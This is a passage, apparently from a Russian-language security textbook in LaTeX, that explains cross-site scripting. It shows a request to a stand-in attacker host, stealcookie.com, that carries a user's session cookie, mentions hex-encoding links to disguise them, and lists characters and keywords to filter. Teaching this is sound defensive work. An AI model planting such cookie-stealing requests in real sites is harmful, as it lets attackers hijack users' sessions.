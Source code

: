 Тогда браузер всех пользователей, которым показывается сообщение, при загрузке страницы отправит HTTP GET-запрос на получение файла <<изображения>> по адресу
\begin{center} \begin{verbatim}
http://stealcookie.com?auth=AJHVML43LDSL42SC6DF;
\end{verbatim} \end{center}

В результате злоумышленник получит cookie, используя который, он может заходить на веб-сайт под видом пользователя.

Вставка гиперссылок является наиболее частой XSS-атакой. Иногда ссылки кодируются шестнадцатеричными числами вида \texttt{\%NN}, чтобы не вызывать сомнения у пользователя текстом ссылки.



На 2009 г. 80\% обнаруженных уязвимостей веб-сайтов являются XSS-уязвимостями.

Стандартный способ защиты от XSS-атак заключается в фильтрации, замене, экранировании символов и слов введенного текста пользователем: \texttt{<}, \texttt{>}, \texttt{/}, \texttt{\textbackslash}, \texttt{"}, \texttt{'}, \texttt{(}, \texttt{)}, \texttt{script}, \texttt{javascript} и др., а также в обработке кодировок символов.
